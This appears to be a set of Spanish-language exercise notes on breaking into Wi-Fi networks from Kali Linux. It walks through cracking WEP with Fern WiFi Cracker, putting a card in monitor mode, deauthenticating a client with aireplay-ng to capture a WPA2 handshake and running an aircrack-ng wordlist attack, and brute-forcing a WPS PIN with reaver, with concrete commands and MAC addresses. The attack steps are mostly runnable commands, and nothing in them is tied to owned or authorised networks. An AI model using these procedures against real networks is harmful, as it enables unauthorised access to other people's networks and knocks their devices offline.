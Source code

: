 EJERCICIO (FERN WIFI CRACKER)

1. Abrimos **Fern WIFI Cracker** en Kali
2. Seleccionamos la interfaz WLAN0 o tarjeta inalámbrica de la maquina
3. Escaneamos los puntos de acceso
4. Abrimos las redes WEP detectadas
5. Se selecciona la red y en **Attack**
6. Finalmente obtendremos la contraseña en la parte inferior

EJERCICIO (FUERZA BRUTA)

1. En la terminal Kali ejecutamos **airmon-ng** para ver nuestra interfaz de tarjeta
2. Ahora pondremos nuestra tarjeta en modo monitoreo:

**airmon-ng start &lt;Interface&gt;**

1. Es probable que nos dé un error debido a más procesos que interfieren por lo que tendremos que terminarlos con **kill &lt;PID&gt;** (ID DEL PROCESO)
2. Comenzaremos el monitoreo: **airodump-ng wlan0mon** (nuestra interfaz)
3. Ahora monitorearemos la red especifica: airodump-ng -w &lt;nombre Archivo&gt; -c &lt;CH de la red&gt; --bssid &lt;BSSID de la red&gt; wlan0mon

**airodump-ng -w attack1 -c 3 --bssid 5C:E9:31:01:36:DF wlan0mon**

1. Ahora ocupamos un **Handshake** de la red por lo que en otra terminal ejecutaremos: aireplay-ng -0 &lt;paquetesAEnviar&gt; -a &lt;BSSID&gt; -c &lt;STATION&gt; wlan0mon  
    **aireplay-ng -0 10 -a 5C:E9:31:01:36:DF -c D8:1F:12:B4:41:A9 wlan0mon**
2. Y ahora en la anterior terminal deberíamos tener el HANDSHAKE en la parte superior derecha. EJEMPLO:
![RESULTADO DEL HANDSHAKE CORRECTO](../assets/image55.png)
3. Y ahora podemos detener este monitoreo y cerrar la otra terminal
4. Y ahora intentaremos entrar en la red: aircrack-ng -w &lt;ubicacionListaPalabras&gt; -b &lt;SSID&gt; &lt;archivoCapCreadoDelMonitoreoAnterior&gt;

**aircrack-ng -w /Desktop/wordlist.txt -b 5C:E9:31:01:36:DF /home/rusian/attack1.cap**

1. Comenzará a probar todas las combinaciones de la lista de palabras (wordlist.txt) para encontrar la correcta de la red.

EXTRA

Las redes WPA2 son muy fuertes y no se pueden violar simplemente por ensayo y error como en la WEP por lo que es necesario tener una lista de palabras y dependiendo si esta lista es fuerte podrá ser posible descifrar mejor esta red mientras que si es débil esta lista no será posible por lo que en este caso usamos un ataque de fuerza bruta el cual evalúa todas las palabras de la lista que conseguí para descifrar la contraseña.

El archivo CAP por defecto debería guardarse en nuestra carpeta Home y se crea con el nombre que nosotros antes le asignamos, y aunque al hacer el monitoreo se crean más tipos de archivos con el mismo nombre solo será necesario utilizar en este caso el (.cap)

Este método para estas redes suele ser tardado y no muy fiable de éxito

EJERCICIO

1. Con el comando **_wash_** y **_reaver_** en la terminal se nos mostraran varias opciones a usar
2. Abrimos el modo monitoreo de nuestra tarjeta de red:

**_wash -i wlan0mon_**

1. Y para comenzar simplemente ejecutamos:

**_reaver -i wlan0mon -b &lt;BSSID&gt; -vv_**

1. Y al final podremos obtener el pin WPS

Este método puede durar bastante, ya sea un par de horas o incluso días, pero se nos podrá mostrar el pin WPS y la contraseña WPA2 para podernos conectar a la red, pero si el usuario cambio la contraseña de la red solo debemos cambiar la opción -vv por -p &lt;pinDe8Digitos&gt; el cual ya obtuvimos antes con el escaneo anterior y obtendremos la contraseña WPA2 de nuevo en cuestión de segundos.

**_reaver -i wlan0mon -b &lt;BSSID&gt; -p &lt;pin&gt;_**

EXTRA

Para regresar nuestra tarjeta de red al modo normal hay dos formas:

- Reiniciando la maquina
- Reiniciando los servicios por Terminal
  - **airmon-ng stop wlan0mon**
  - **ifconfig wlan0 up**
  - **service NetworkManager restart**
